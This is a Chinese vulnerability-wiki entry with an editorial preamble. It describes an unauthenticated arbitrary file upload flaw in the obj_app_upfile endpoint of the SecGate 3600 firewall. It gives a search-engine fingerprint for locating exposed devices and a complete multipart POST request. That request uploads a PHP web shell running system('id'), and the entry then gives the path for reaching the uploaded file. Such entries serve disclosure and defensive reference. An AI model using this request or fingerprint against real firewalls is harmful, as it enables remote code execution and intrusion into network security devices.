




# 网神-SecGate-3600-防火墙-obj_app_upfile-任意文件上传漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：网神SecGate3600 obj_app_upfile
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：缺具体版本修复和__hash__作用
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与wy876同接口同请求字段/载荷，仅文件名不同，明显互补重复
2. 该稿多app.mds源码截图和fid指纹应保留
3. 缺具体版本修复和__hash__作用
4. 200/图示需文字证据，自删需要核实
5. 归安全设备

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

网神 SecGate 3600 防火墙

## 网络测绘

```
fid="1Lh1LHi6yfkhiO83I59AYg=="
```

## 漏洞复现

登录页面



出现漏洞的文件 webui/modules/object/app.mds



代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传



```
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/xxx.php 文件



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
